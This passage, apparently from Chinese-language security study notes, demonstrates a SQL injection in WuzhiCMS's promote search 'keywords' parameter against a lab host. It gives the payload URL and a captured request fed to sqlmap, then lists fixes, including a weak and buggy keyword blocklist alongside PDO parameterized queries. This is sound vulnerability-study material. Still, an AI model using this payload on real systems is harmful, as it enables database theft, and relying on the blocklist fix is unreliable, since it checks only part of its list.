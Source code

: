 ``````
```

## 8.4 漏洞实战演示

构造url链接，使用SQLMAP可获取数据库敏感数据。

Payload：

```
http://10.1.1.6/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=1111%'*%23
```

 ![1559825805791](assets/1559825805791.png)

抓包把数据包放到sqlmap上跑

```html
GET /index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=1111%%27*%23 HTTP/1.1
Host: 10.1.1.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: PHPSESSID=e7qnm2dis4d18e28k6dla00gj1; XHV_uid=nX7CXoL%2FmTtWpu9BxI8h6Q%3D%3D; XHV_username=wP2OI%2B5dB0HgOUo0%2F9IuFA%3D%3D; XHV_wz_name=LCMQtntZUxcXN9%2BtUJuyXA%3D%3D; XHV_siteid=qs71GIOYdXiGHTG0Itnn2g%3D%3D
Upgrade-Insecure-Requests: 1
```

![1559826257426](assets/1559826257426.png)

## 8.5 漏洞修补建议

### 8.5.1 使用htmlspecialchars函数在GET输入做一个过滤。

![1559822934334](../../%E7%AC%94%E8%AE%B0/SQL/assets/1559822934334.png)

### 8.5.2 使用strpos函数在GET输入做判断是否存在关键字。

可以自定义关键字建立数组即可

```
function foo($arg)
{
    #echo $arg;
    $array = array("and", "or","xxx");
    for ($i=0; $i < 2; $i++) { 
    	if (strpos($arg,$array[$i])!== false){
        die("警告");
    }
    }
    return $arg;
}
```

![1559824483123](../../%E7%AC%94%E8%AE%B0/SQL/assets/1559824483123.png)

### 8.5.3 使用PDO进行加固

把查询语句弄成一个对象，通过函数判断输入进来的值是否为数字，然后再通过正则替换内容

使用参数化查询可有效避免SQL注入
``````